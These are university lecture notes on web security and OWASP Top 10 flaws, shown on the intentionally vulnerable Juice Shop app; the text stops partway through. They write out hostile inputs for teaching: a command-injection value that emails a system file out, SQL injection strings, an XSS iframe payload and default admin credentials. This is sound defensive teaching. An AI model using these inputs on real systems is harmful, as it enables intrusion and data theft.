






# Web security <!-- omit in toc -->



## Table of Contents <!-- omit in toc -->
- [Required & recommended readings and activities](#required--recommended-readings-and-activities)
- [Learning goals](#learning-goals)
- [Introduction](#introduction)
- [Threat examples](#threat-examples)
  - [Defacement](#defacement)
  - [Data disclosure](#data-disclosure)
  - [Data loss](#data-loss)
  - [Denial of service](#denial-of-service)
  - [Unauthorized access](#unauthorized-access)
- [Most frequent vulnerabilities](#most-frequent-vulnerabilities)
- [Juice Shop & OWASP](#juice-shop--owasp)
  - [Injection](#injection)
    - [:bangbang: Juice Shop](#bangbang-juice-shop)
    - [How to avoid it](#how-to-avoid-it)
  - [Broken authentication and session management](#broken-authentication-and-session-management)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-1)
    - [How to avoid it](#how-to-avoid-it-1)
  - [XSS](#xss)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-2)
    - [How to avoid it](#how-to-avoid-it-2)
  - [Improper input validation](#improper-input-validation)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-3)
    - [How to avoid it](#how-to-avoid-it-3)
  - [Security misconfiguration](#security-misconfiguration)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-4)
    - [How to avoid it](#how-to-avoid-it-4)
  - [Sensitive data exposure](#sensitive-data-exposure)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-5)
    - [How to avoid it](#how-to-avoid-it-5)
  - [Broken access controls](#broken-access-controls)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-6)
    - [How to avoid it](#how-to-avoid-it-6)
  - [CSRF](#csrf)
    - [Juice Shop](#juice-shop)
    - [How to avoid it](#how-to-avoid-it-7)
  - [Insecure components](#insecure-components)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-7)
    - [How to avoid it](#how-to-avoid-it-8)
  - [Unvalidated redirects](#unvalidated-redirects)
    - [:bangbang: Juice Shop](#bangbang-juice-shop-8)
    - [How to avoid it](#how-to-avoid-it-9)
- [Summary](#summary)
- [Self-check](#self-check)

## Required & recommended readings and activities

- Required readings: *none*
- Recommended activities:
  - :headphones: Listen to [this podcast](https://syntax.fm/show/035/keeping-up-with-the-codeashians-dealing-with-our-fast-paced-industry) on how to navigate the fast-paced Web technology industry.
  - :tv: [The Power of the Web Platform](https://github.com/feross/TheAnnoyingSite.com) - a talk by Feross Aboukhadijeh about what annoying things are possible on the web. Entertaining! Be sure to not open the accompanying website while in a quiet space.
- Recommended readings:
  - [Stanford's 2019 Web Security course](https://web.stanford.edu/class/cs253/) covers many web security issues in detail.
  - :closed_book: If you want to know everything there is about security, read Ross Anderson's [Security Engineering book](https://www.cl.cam.ac.uk/~rja14/book.html). [Chapter 21](http://www.cl.cam.ac.uk/%7Erja14/Papers/SEv2-c21.pdf) is most pertinent to the web security lecture (warning: this is an extensive read).
  - [Stanford's Computer and Network Security course](https://cs155.github.io/Spring2019/) has a number of lectures on web security (PDFs: [here](https://cs155.github.io/Spring2019/lectures/08-web.pdf), [here](https://cs155.github.io/Spring2019/lectures/09-web-attacks.pdf) and [here](https://cs155.github.io/Spring2019/lectures/10-SessionMgmt.pdf)).
  - The [Open Web Application Security Project](https://www.owasp.org/index.php/Main_Page) provides an extensive list of practical tips, best practices and further readings on the topic.
  - [Node.js security best practices](https://medium.com/@nodepractices/were-under-attack-23-node-js-security-best-practices-e33c146cb87d).
  - MDN has a very good [collection of Web security articles](https://developer.mozilla.org/en-US/docs/Web/Security).
- Relevant scientific publications:
  - Aggarwal, Gaurav, et al. [An Analysis of Private Browsing Modes in Modern Browsers](http://crypto.stanford.edu/~dabo/papers/privatebrowsing.pdf). In Proceedings of the 19th USENIX conference on Security. USENIX Association. 2010.
  - Kieyzun, Adam, et al. [Automatic creation of SQL injection and cross-site scripting attacks](https://dl.acm.org/citation.cfm?id=1555036). 31st international conference on software engineering. IEEE, 2009.
  - Von Ahn, Luis, et al. [reCAPTCHA: Human-based character recognition via web security measures](http://science.sciencemag.org/content/321/5895/1465). Science 321.5895 (2008): 1465-1468.
  - Acar, Gunes, et al. [The web never forgets: Persistent tracking mechanisms in the wild](https://www.ftc.gov/system/files/documents/public_comments/2015/10/00064-98109.pdf). Proceedings of the ACM SIGSAC Conference on Computer and Communications Security. 2014.
  - Zimmermann, Markus, et al. [Small world with high risks: A study of security threats in the npm ecosystem](https://www.usenix.org/system/files/sec19-zimmermann.pdf). 28th USENIX Security Symposium. 2019.

## Learning goals

- Describe the most common security issues in web applications.
- Describe and implement a number of attacks that can be executed against unsecured code.
- Implement measures to protect a web application against such attacks.

*Note that cybersecurity is a huge area of work, here at TU Delft we have a special program at the Master level dedicated to cybersecurity. In one lecture we can only give a small glimpse into the issues web developers face when it comes to security issues.*

## Introduction

Web applications are an attractive target for *attackers* (also known as *malicious users*) for several reasons:

- Web applications are open to attack from **different angles** as they rely on various software systems to run: an attacker can go after the **web server** hosting the web application, the **web browser** displaying the application and the **web application** itself. The **user**, of course, is also a point of attack.
- Successfully attacking a web application with thousands or millions of users offers a lot of potential gain.
- "Hacking" today does not require expert knowledge, as easy-to-use automated tools are available that test servers and applications for known vulnerabilities (e.g. [w3af](http://w3af.org/)).

When developing a web application, it is important to ask yourself **how can it be attacked?** and secure yourself against those attacks. While web applications are relatively easy to develop thanks to the tooling available today, they are difficult to secure as that step requires substantial technological understanding on the part of the developer. Not only that, how to secure an application is also a constantly moving target, as new vulnerabilities are discovered. An obvious first step is to employ the automated tools mentioned above to fix known vulnerabilities.

Large-scale web portals such as Facebook have partially outsourced the finding of security issues to so-called *white hat hackers* - people interested in security issues that earn money from testing companies' defenses and pointing them towards specific security issues. [By 2016, Facebook, for example, had paid out millions in *bug bounties*](https://www.facebook.com/notes/facebook-bug-bounty/facebook-bug-bounty-5-million-paid-in-5-years/1419385021409053/) ([GitHub has reached a similar payment number in 2020](https://github.blog/2020-03-25-six-years-of-the-github-security-bug-bounty-program/)), while [Google paid 36K to a single bug hunter](https://www.cnbc.com/2018/05/26/teenager-wins-36k-from-google-bug-bounty-program.html) once.
Bug bounty programs are run by, among others, [Facebook](https://www.facebook.com/whitehat), [Google](https://www.google.com/about/appsecurity/reward-program/), [PayPal](https://www.paypal.com/us/webapps/mpp/security-tools/reporting-security-issues), [Quora](https://engineering.quora.com/Security-Bug-Bounty-Program), [Mozilla](https://www.mozilla.org/en-US/security/bug-bounty/) and [Microsoft](https://www.microsoft.com/en-us/msrc/bounty). Even [Stanford University](https://uit.stanford.edu/security/bug-bounty) runs its own bug bounty program.

## Threat examples

Before diving into what causes web applications to be vulnerable on a technical level, we introduce major threats web applications face with a number of real-world examples.

### Defacement

Website defacement is an attack against a website that changes the visual appearance of a site. It can be an act of hacktivism (socio-politically motivated), revenge, or simply internet trolling.  

A famous example here is CERN, [which in 2008 had one of its portals defaced by a Greek hacker group](https://astroengine.com/2008/09/16/greek-hackers-invade-lhc-nothing-much-happens/). This benevolent looking  page:


became this one:



Beside defacement, no damage was done. Despite this, the attack was a cause for concern as the "hacked" web server formed part of the monitoring systems for some of the Large Hadron Collider detector hardware.

Another example is the [2015 defacement attack against Lenovo](https://www.theguardian.com/technology/2015/feb/26/lenovo-website-hacked-and-defaced-by-lizard-squad-in-superfish-protest) (a computer manufacturer). A hacking group going by the name of *Lizard Squad* replaced Lenovo's main website with a slideshow of bored teenagers.

### Data disclosure

Data disclosure is a threat that is in the news, when a large company fails to protect sensitive or confedential information from users who should not have access to it - a recent example being [Facebook's leak of 419 million users' phone numbers](https://techcrunch.com/2019/09/04/facebook-phone-numbers-exposed/).

A less well-known example is a [2015 attack against VTech](http://www.computerworld.com/article/3009236/cybercrime-hacking/massive-vtech-hack-exposes-data-of-nearly-5-million-parents-and-over-200-000-kids.html), a global toy producer. In this instance the attackers gained access to nearly 5 million records of parents including their email addresses and passwords. Worst of all, while the passwords were stored encrypted, the security questions were stored in plain text, making them an easy target to exploit. This is problematic because many people reuse the same passwords and security questions across applications.

### Data loss

This threat is the most devastating for organizations that do not have proper backups in place: attackers are deleting data from servers they infiltrate.

Code Spaces ([snapshot of their website in 2014](https://web.archive.org/web/20140219025823/http://www.codespaces.com:80/)) used to be a company providing secure hosting options and project management services for companies. Until the day the [*Murder in the Amazon cloud*](http://www.infoworld.com/article/2608076/data-center/murder-in-the-amazon-cloud.html) happened - the title of the article is not an exaggeration. Code Spaces was built on Amazon Web Services (AWS), one of the major cloud computing platform providers used by many companies due to their reliable service at predictable cost. Services on demand tend to be cheaper and easier to work with than running and maintaining one's own hardware. AWS has an easy to use interface to spin up servers - a Web interface that has (of course) an authentication step built-in :point_down:: 



<sup>Screenshot of the AWS console in late 2019.</sup>

An attacker was able to access Code Spaces' AWS console and threatened to shut down the servers and delete the data snapshots (literally possible with a click of a button) unless a ransom was paid. The company did not pay and tried to regain control of their AWS control panel. By the time this was achieved, the attacker had already deleted almost all resources. As Code Spaces had decided to run the servers **and their backups** from the same AWS account, they were all vulnerable at once. The company clients' data was gone and [Code Spaces shut down](https://web.archive.org/web/20140625045902/http://www.codespaces.com/).

### Denial of service

Denial of service (DoS) is a disruption attack that makes web applications unavailable for legitimate users.

To showcase this threat we use a 2015 Steam store attack, which is extensively described in a [Steam post](https://store.steampowered.com/news/19852/). A signature of a DoS attack is the abnormal traffic increase - in this case, the Steam store had to deal with a 2000% increase in traffic. Steam had a defense against a DoS attack in place to minimize the impact on Steam's servers; however, the defense (caching rules of additional web caches) was imperfect and incorrectly cached web traffic was shown to authenticated users, which means that some users saw other people's account page.

A variant of a DoS attack is a *Distributed Denial of Service* (DDoS) attack where multiple systems flood a targeted system. Typically, an attacker recruits multiple vulnerable machines (or bots) to join a *Botnet* for DDoS attacks. In 2016, a major DDoS attack was carried out by the [Mirai botnet](https://www.csoonline.com/article/3258748/the-mirai-botnet-explained-how-teen-scammers-and-cctv-cameras-almost-brought-down-the-internet.html), which was composed of a number of IoT devices that were available on the Internet with default passwords.    

### Unauthorized access

The most difficult component of a system to secure is its users. **Phishing** and **social engineering** can lead unsuspecting users to give access to some part of the secured system to attackers. Once in, attackers try to infiltrate other internal systems.

A common example (also described in this [attack on the US State Department](https://edition.cnn.com/2015/04/07/politics/how-russians-hacked-the-wh/)) is the sending of emails to government employees impersonating a colleague and requesting access to a low-level security system. Who-knows-whom can often be inferred from public appearances, the staff overview on websites, public documents, and so on. Often, access is simply granted by the unsuspecting user, despite policies to the contrary. Recently, the [University of Maastricht paid out 30 bitcoin (about 200,000 Euros) in ransom](https://www.reuters.com/article/us-cybercrime-netherlands-university-idUSKBN1ZZ2HH) to regain access to their computer systems which had been infiltrated by attackers via phishing.

Unauthorized access can also be achieved by probing web applications for functionalities that should not be accessible to the average user. An example is [Instagram's backend admin panel](https://www.hackread.com/instagram-hacked-researcher-gets-admin-panel-access/) which was accessible on the web while it should have only been accessible from the internal Instagram network.  

## Most frequent vulnerabilities

In order to effectively secure a web application, it helps to know what the most frequent security issues are. 

Ideally, we can refer to a single report, that is updated yearly and showcases the most frequent vulnerabilities derived from a large sample of web applications. Unfortunately, due to the big business that *cybersecurity* is, many existing reports read more like an advertisement and are vague on their methodology, where the numbers come from, how the vulnerabilities were derived and so on. For this reason, we here mostly rely on the [Cyber security risk report 2016 published by HPE](https://www.thehaguesecuritydelta.com/media/com_hsd/report/57/document/4aa6-3786enw.pdf) (in short: CSRHPE). For this report, several thousand applications (mobile, web, desktop) were sampled and their security was probed. Although the report is from 2016, the major findings have been corroborated by more recent reports as well (such as the [2019 vulnerability statistics report](https://www.edgescan.com/wp-content/uploads/2019/02/edgescan-Vulnerability-Stats-Report-2019.pdf) and the [2019 Internet Security Threat Report](https://www.symantec.com/content/dam/symantec/docs/reports/istr-24-2019-en.pdf)). In this section of the lecture, we go over some of the most important findings in the CSRHPE concerning web applications.

The most important **software security issues** for web and mobile applications are the following, reported as *percentage of scanned applications*:


<sup>Most important software security issues. Figure taken from page 56, CSRHPE.</sup>

:point_up: In general, mobile applications are more vulnerable than web applications; the worst issues were found in the *security features* category, which includes authentication, access control, confidentiality and cryptography issues. 99% of mobile applications had at least one issue here. The *environment* category is also problematic with 77% of web applications and 88% of mobile applications having an issue here - this refers to server misconfigurations, improper file settings, sample files and outdated software versions. The third category to mention is *input validation and representation* which covers issues such as cross-site scripting and SQL injections, that are present in most mobile applications and 44% of web applications. The latter is actually surprising, as a lot of best practices of how to secure web applications exist - clearly though, these recommendations are often ignored.

If we zoom in on the non-mobile applications, the ten most commonly occurring vulnerabilities are the following, reported as the *percentage of applications* and *median vulnerability count*:


<sup>Top 10 vulnerabilities. Figure taken from page 57, CSRHPE.</sup>

:point_up: Some of these vulnerabilities you should already recognize and be able to place in context, specifically *Cookie Security: cookie not sent over SSL* and *Cookie Security: HTTPOnly not set*. The vulnerability *Privacy violation: autocomplete* should intuitively make sense: auto-completion is a feature provided by modern browsers; browsers store information submitted by the user through `<input>` fields. The browser can then offer autocompletion for subsequent forms with similar field names. If sensitive information is stored in this manner, a malicious actor can provide a form to a user that is then auto-filled with sensitive values and transmitted back to the attacker. For this reason, it is often worthwhile to [switch off autocompletion](https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion) for sensitive input fields.

:point_up: Lastly, let's discuss the *Hidden field* vulnerability. It provides developers with a simple manner of including data that should not be seen/modified by users when a `<form>` is submitted. For example, a web portal may offer the same form on every single web page and the hidden field stores a numerical identifier of the specific page (or route) the form was submitted from. However, as with any data sent to the browser, with a bit of knowledge about the dev tools available in modern browsers, the user can easily change the hidden field values, which creates a vulnerability if the server does not validate the correctness of the returned value.

Taking a slightly higher-level view, the top five violated security categories across all scanned applications are the following, reported as *percentage of applications violating a category* :point_down::



<sup>Top 5 violoated security categories. Figure taken from page 59, CSRHPE.</sup>

:point_up: The only category not covered so far is *Insecure transport*. This refers to the fact that applications rely on insecure communication channels or weakly secured channels to transfer sensitive data. Nowadays, at least for login/password fields, the modern browsers provide a warning to the user indicating the non-secure nature of the connection, as seen in this example :point_down::



<sup>Firefox's warning when attempting login via http (instead of https).</sup>

It is worth noting that in recent years browsers have implemented support for the `Strict-Transport-Security` header, which allows web applications to inform the browser that it should **only** be accessed via HTTPS. This prevents attacks such as described in this [MDN article on `Strict-Transport-Security`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security):

```
You log into a free WiFi access point at an airport and start surfing the web, visiting your
online banking service to check your balance and pay a couple of bills. Unfortunately, the
access point you're using is actually a hacker's laptop, and they're intercepting your original
HTTP request and redirecting you to a clone of your bank's site instead of the real thing.
Now your private data is exposed to the hacker.

Strict Transport Security resolves this problem; as long as you've accessed your bank's website
once using HTTPS, and the bank's website uses Strict Transport Security, your browser will know
to automatically use only HTTPS, which prevents hackers from performing this
sort of man-in-the-middle attack.
```

## Juice Shop & OWASP

The best way to learn about web security is to try out the introduced techniques in an actual web application that is vulnerable. As we have covered JavaScript/Node.js, a vulnerable web application that is written in JavaScript/Node.js will be most useful to us.

The [OWASP Juice Shop application](https://owasp.org/www-project-juice-shop/) was designed specifically for this purpose. It is an insecure web application written in JavaScript (using Node.js/Express/Angular) that contains a wide range of vulnerabilities. 

:bangbang: [Juice Shop's GitHub repository](https://github.com/bkimminich/juice-shop) comes with detailed installation instructions that allow you to install it locally on your machine or in the cloud. We strongly suggest you to do so, and to follow the practical guide we provide in the next sections. More specifically, we suggest to use the [Docker container setup](https://github.com/bkimminich/juice-shop#docker-container) - if you need help installing Docker or Juice Shop, please ask the student assistants during lab hours!

Note that Juice Shop also comes with an [official companion guide](https://github.com/bkimminich/juice-shop#official-companion-guide) that contains an overview of all existing vulnerabilities. We cover only a small part of those.

OWASP is an acronym and stands for [Open Web Application Security Project](https://www.owasp.org) and is an organization whose mission is to improve software security. Creating a vulnerable application to showcase the worst security issues is one way to train software engineers in web security. The [OWASP Top 10](https://owasp.org/www-project-top-ten/) vulnerabilities are those vulnerabilities that - by consensus among security experts - are the most critical security risks to web applications.

In the following sections, we will discuss the OWASP Top 10 vulnerabilities (in no particular order) on the example of Juice Shop.

### Injection

**Injection attacks** exploit the fact that input is interpreted by the server without any checks. A malicious user can create input that leads to unintended command executions on the server.

Input for injection attacks can be created via:

- parameter manipulation of HTML forms (e.g. input fields are filled with JavaScript code);
- URL parameter manipulation;
- HTTP header manipulation;
- hidden form field manipulation;
- cookie manipulation.

Injection attacks on the server can take multiple forms, we first consider **OS command injection** :point_down::



<sup>OS command injection.</sup>

:point_up: Here, we have a web portal that allows a user to sign up to a newsletter. The form looks simple enough: one `<input type="text">` element and a `<button>` to submit the form. On the server-side, a bash script takes a fixed confirmation string (stored in file `confirm`) and sends an email to the email address as stated in the user's input (*Thank you for signing up for our mailing list.*). This setup of course assumes, that the user actually used an email address as input. Let's look at benign and malicious user input:

- The benign input `john@test.nl` leads to the following OS command: `cat confirm|mail john@test.nl`. This command line is indeed sufficient to send an email, as Linux has a command line [mail](https://linux.die.net/man/1/mail) tool.
- An example of malicious input is the following: `john@test.nl; cat /etc/password | mail john@test.nl`. If the input is not checked, the server-side command line will look as follows: `cat confirm | mail john@test.nl; cat /etc/password | mail john@test.nl`. Now, two emails are sent: the confirmation email and a mail sending the server's file `/etc/password` to `john@test.nl`. This is clearly *unintended code execution*.

The main issue here is the lack of **input validation**. It should not be assumed that any input is the desired/wanted input, this has to be validated.

Lets look at another instance of an injection attack. Imagine a calculator web application that allows a client to provide a formula, which is sent to the server, evaluated on the server inside a Node.js script, and the final result is sent back to the client. JavaScript offers an [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) function that takes a string representing JavaScript code and runs it, e.g. the string `100*4+2` can be evaluated with `eval('100*4+2')`, resulting in `402`. However, a malicious user can also try to input `while(1)` or [`process.exit()`](https://nodejs.org/api/process.html#process_process_exit_code); the former leads the Node.js event loop to be stuck forever in the while loop, while the latter instructs Node.js to terminate the running process.

`eval()` in fact is so dangerous that [it should never be used](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval#Do_not_ever_use_eval!).

Lastly, lets consider **SQL injection** attacks. They are a regular occurrence when input is not validated (we will repeat the input-validation-mantra a few more times throughout this lecture). Consider this example code snippet below :point_down::

```javascript
let n = /* code to retrieve user provided name */
let p = /* code to retrieve user provided password */

/* a database table 'users' holds our user data */
let sqlQuery = "select * from users where name = '"+u+"' and password = '" + p + "'";
/* execute query */
```

:point_up: A benign user input such as `john` as username and `my_pass` as password will lead to the SQL query `select * from users where name='john' and password='my_pass'`. Once we know (or guess) how the SQL query is constructed, we can construct malicious input that allow us to retrieve the row for user `john` without knowing the correct password. For example:

- The username `john'--` with any password will lead to the following SQL query `select * from users where name='john'-- and password=''`. Here, the fact that we can add comments within SQL statements is exploited to remove the requirement for the correct password.
- The username `john` with password `anything' or '1'='1` will lead to the SQL query `select * from users where name='john' and password='anything' or '1'='1'`.

#### :bangbang: Juice Shop

We here take up the **Login Bender** attack among all available [Juice Shop injection attacks](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/injection.html). The task is simple: try to login as the user `Bender` via an injection attack.

1. To execute, head to your local Juice Shop installation. If you followed our suggestion of using the Docker setup, your local installation will be at [http://localhost:3000](http://localhost:3000).
2. Head to the login screen via the Account link at the top right.
3. If we know that `Bender` is a user, we now need to guess that user's email address. If our guess is correct, we can then see what happens if we append `'--` to the email address. If the application is susceptible to a SQL injection attack, we should be able to login with Bender's email address and any password of our choosing.
4. With a little bit of guessing, we will end up at `bender@juice-sh.op` as the email address of user `Bender`. See if you can log in with that email address and any password of your choosing. *This should not be possible. You should receive an error message.*
5. Now try the same email address with our little SQL injection suffix `'--`: `bender@juice-sh.op'--`. No matter the provided password, you should be able to log in as user `Bender`.

Why does this work? Lets take a look at the source code of Juice Shop, in particular the [login route](https://github.com/bkimminich/juice-shop/blob/master/routes/login.js). It contains the following code snippet :point_down::

```javascript
module.exports = function login () {
  /* ... */

  return (req, res, next) => {
    /* ... */
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${insecurity.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: models.User, plain: true })
      .then((authenticatedUser) => {
        /* ... */
      }).catch(error => {
        next(error)
      })
  }
}
/* ... */
```

:point_up: As we anticipated, the user input is not validated but inserted directly into an SQL query.

#### How to avoid it

Injection attacks can be avoided by **validating** user input (e.g., is this input really an email address?) and **sanitizing** it (e.g., by stripping out potential JavaScript/SQL code elements). These steps should occur **on the server-side**, as a malicious user can always circumvent client-side validation/sanitation steps.

A popular Node package that validates and sanitizes user input is [validator](https://www.npmjs.com/package/validator). For example, to check whether a user input constitutes a valid email address, the following two lines of code are sufficient:

```javascript
var validator = require('validator');
var isEmail = validator.isEmail('while(1)'); //false
```

To avoid SQL injection attacks, [sqlstring](https://www.npmjs.com/package/sqlstring) is a Node.js package that escapes user provided input. Even better, instead of writing SQL queries on the fly (so-called dynamic queries as shown above), use **prepared statements** as [described here for PostgreSQL](https://www.postgresql.org/docs/current/sql-prepare.html).


### Broken authentication and session management

Quoting OWASP: *"Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently."*.

We here focus in particular on technical weaknesses, though phishing and other social techniques are often employed to guess passwords and answers to security questions (which in turn allow password resets).

[Recall](sessions.md#bangbang-sessions) that in order to establish *sessions*, cookies are used. A cookie stores a randomly generated user ID on the client, the remaining user information is stored on the server :point_down::



An attacker can exploit broken authentication and session management functions to impersonate a user. In the latter case, the attacker only needs to acquire knowledge of a user's session cookie ID. This information can be revealed to an attacker in several ways:

- Via the usage of **URL rewriting** to store session IDs. Imagine the following scenario: a bookshop supports URL rewriting and includes the session ID in the URL, e.g., `http://mybookshop.nl/sale/sid=332frew3FF?basket=B342;B17`. An authenticated user of the shop (who has stored her credit card information in it) wants to let others know about her buying two books. She e-mails the link without realizing that she is giving away her session ID. Anyone with the link can use her session (at least for a short period of time) and is thus able to use her credit card to buy products.
- When **storing a session ID in a cookie without informing the user**. A user may use a public computer to access a web application that requires authentication. Instead of logging out, the user simply closes the browser tab. Closing the browser tab does NOT delete a session cookie though. An attacker uses the same browser and application a few minutes later - the original user will still be authenticated.
- When sending **session ID via HTTP** instead of HTTPS. In this case, an attacker can listen to the network traffic and simply read out the session ID. The attacker can then access the application without requiring the user's login/password.
- When relying on **static session IDs** instead of regularly changing ones. If session IDs are not regularly changed, they are more easily guessable.
- When **session IDs are predictable.** Once an attacker gains knowledge of how to generate valid session IDs, the attacker can wait for a user with valuable information to pass by.

#### :bangbang: Juice Shop

Juice Shop's [broken authentication challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/broken-authentication.html) involve a considerable number of web searches to find information about its *users*. They also showcase the issue of weak and default passwords. We here take up the challenge of logging in with the administrator's user credentials without applying an SQL injection. This boils down to guessing the admin's username and password. This is not a completely random exercise, as there default credentials available that are often left unchanged by administrators. Even if not the default, often usernames are guessable and passwords are weak. In the case of Juice Shop, the admin email address is `admin@juice-sh.op` and the login is `admin123`. The very popular GitHub repo [SecLists](https://github.com/danielmiessler/SecLists) contains among others collections of common usernames and common passwords to aid *penetration testers* (i.e. testers evaluating the security of applications) in their work. If an application does not control the maximum number of input attempts in a certain time window (Juice Shop indeed does not), an automated script could be employed to run through all common username/password combinations until a valid username/password combination is found.

#### How to avoid it

- Good authentication and session management is difficult - avoid, if possible, an implementation from scratch.
- Ensure that the session ID is never sent over the network **unencrypted**. We have already learnt in the previous lecture that the `Secure` flag can be set for a cookie to ensure that.
- Session IDs should not be visible in URLs.
- Generate a new session ID on login and **avoid reuse**.
- Session IDs should have a timeout and be invalidated on the server after the user ends the session.
- Conduct a sanity check on a request's HTTP header fields (referer, user agent, etc.). Valid HTTP requests typically come from a particular set of pages within the web application. From which page a request was made is visible in the [referer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) request header field.
- Ensure that users' login data is stored securely.
- Do not allow unlimited login attempts to avoid automated scripts trialing common username/password combinations.
- Disallow users to use known weak passwords.
- Add two-factor (or more generally multi-factor) authentication if possible: in this manner, even a guessed username/password combination is not sufficient if the signin happens from a device that has never been used before as an additional verification step is required (e.g. a particular token sent to your phone).

### XSS

XSS stands for **cross-site scripting**.

*"XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content."* (OWASP)

The browser executes JavaScript code all the time; this code is **not** checked by anti-virus software. The browser's sandbox is the main line of defense.

XSS attacks come in two flavours: stored XSS and reflected XSS.

**Stored XSS**: the injected script is **permanently stored on the target server** (e.g. in a database or text file). The victim retrieves the malicious script from the server, when she requests the stored information. This attack is also known as **persistent or Type-I** XSS.

A common example :point_down: of stored XSS are forum posts: if a malicious user is able to add a comment to a page that is not validated by the server, the comment can contain JavaScript code. The next user (victim) that views the forum posts receives the forum data from the server, which now includes the malicious code. This code is then executed by the victim's browser.

```console
http://myforum.nl/add_comment?c=Let+me+…
http://myforum.nl/add_comment?c=<script>…
```

In a **reflected XSS** attack (also known as **non-persistent or Type-II** attack), the injected script is not stored on the server; instead, it is *reflected* off the target server. A victim may for instance receive an email with a tainted link that contains malicious URL parameters.

In the example :point_down: the tainted URL contains JavaScript code as query. An unsuspecting user (the victim) may receive this URL in an email and trust it, because she trusts http://myforum.nl. The malicious code is reflected off the server and ends up in the victim's browser, which executes it.

```console
http://myforum.nl/search?q=Let+me+…
http://myforum.nl/search?q=<script>…
```

#### :bangbang: Juice Shop

Among [Juice Shop's XSS challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/xss.html) we take a look at a reflected XSS attack.

Head to your Juice Shop installation and look for the search bar. Try to search for different things (`juice`, `apple`, `pear`). You will see that the original query `XX` is always shown at the top of the search results as `Search Results - XX`. Let's see whether the search result input is sufficiently sanitized or whether it allows us to perform a reflected XSS attack. 

- Try to search for `alert('hello?')` - what happens? Does an alert window pop up? Spoiler: no. So basic input sanitation is happening. 
- What about ``? Spoiler: besides a little broken image icon not much is happening. 
- How about `<iframe src=javascript:alert('hello?');></iframe>`? Spoiler: this one is successful, you should see a little popup! Take a look at the URL: `http://localhost:3000/#/search?q=%3Ciframe%20src%3Djavascript:alert('hello%3F');%3E%3C%2Fiframe%3E` - it is not obvious that this will lead to some JavaScript execution to the untrained eye (not to mention that when posted to services such as Twitter or Facebook the URL will be shortened and unrecognizable).

Of course, such a popup does not really look malicious, in the end we just say hello. However, a malicious user will probably put other things beside a benign popup into the `<iframe>`.

#### How to avoid it

As before, **validation** of user input is vital. Importantly, input validation has to occur on the client **and** server-side. A malicious user can bypass client-side validation by using a tool like `curl` to create HTTP requests instead of using the browser or by manipulating the requests inside the browser. Thus, client-side validation only helps actual users of the application, it offers no defense against an XSS attack.

A server that generates output based on user data should **escape** it (e.g., escaping `<script>` leads to `&lt;script&gt;`), so that the browser does not execute it.
[DOMPurify](https://www.npmjs.com/package/dompurify) is a good tool for sanitizing HTML code and therefore you can use it to protect your web application from XSS attacks. 

Here is a code example of DOMPurify :point_down::
```javascript
let dirty = '<script> alert("I am dangerous"); </script> Hi';
let clean = DOMPurify.sanitize(dirty);
```

After execution, the variable `clean` will contain only **"Hi"**, DOMPurify will remove the `<script>` tag to prevent an XSS attack. 

We have shown here only a small sample of input that is usually employed to evaluate an application's XSS defenses. An elaborate list of inputs that need to be included in any such testing can be found [at OWASP](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

### Improper input validation

When user input is not checked or incorrectly validated, the web application may start behaving in unexpected ways. An attacker can craft an input that alters the application's control flow, cause it to crash, or even execute arbitrary user-provided code.

Improper input validation is often the root cause of other vulnerabilities, e.g., [injection](#injection) and [XSS](#xss) attacks.

#### :bangbang: Juice Shop

Of the [input validation challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/improper-input-validation.html) we focus on the registration with mismatching passwords.

Head over to your Juice Shop installation and register a new user (you find the link to the registration form on the login form). Fill in the registration form. You will observe that the `Repeat Password` field shows an error until the two passwords are a match. Now, go back to the `Password` field and change its content. You should now not be able to register due to the mismatch, but you can! The mismatched passwords do not raise an error during the user registration process.

#### How to avoid it

As stated already a few times, input validation on the client **and** server-side is vital to avoid these vulnerabilities.

### Security misconfiguration

Web application engineering requires extensive knowledge of system administration and the entire web development stack. Security vulnerabilities can arise in all aspects of the application: the web server, the database, the application framework, the sever's operating system, etc. Common issues are the following:

- Default accounts and passwords remain set.
- Resources may be publicly accessible that should not be.
- The root user can log in via SSH and thus allowing remote access to privileged accounts.
- Security patches are not applied on time.
- Error handling is not done properly causing the application to crash.

#### :bangbang: Juice Shop

Among the [security misconfiguration challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/security-misconfiguration.html) we take a look at error handling: the task here is to find a URL that provides us with information about the server (essentially a 5XX status message). While URLs (we assume a local installation of Juice Shop) such as `http://localhost:3000/fdsfs` are handled gracefully, the REST API endpoints have issues. The URL `http://localhost:3000/rest/` will return a status code 500 with important information bout the Express version that is being run on the server-side. This information in turn can be used by a malicious user to track down security vulnerabilities of this particular Express version. The proper way to deal with such server-side errors is to show a customized error message that does not reveal unnecessary information about the server.

#### How to avoid it

Install the latest stable version of Node.js and Express. Install security updates. Rely on [`npm audit`](https://docs.npmjs.com/auditing-package-dependencies-for-security-vulnerabilities) (and then `npm audit fix`) to assess and fix your dependencies' security issues.

A popular package to secure Express-based applications is [Helmet](https://www.npmjs.com/package/helmet). It acts as middleware in Express applications and sets HTTP headers according to best security practices. 

Rely on automated scanner tools to check web servers for the most common types of security misconfigurations.

### Sensitive data exposure

If a web application does not use HTTPS for all authenticated routes (recall that HTTPS is needed to protect the session cookie), a malicious user can monitor the network traffic and steal the user's session cookie.

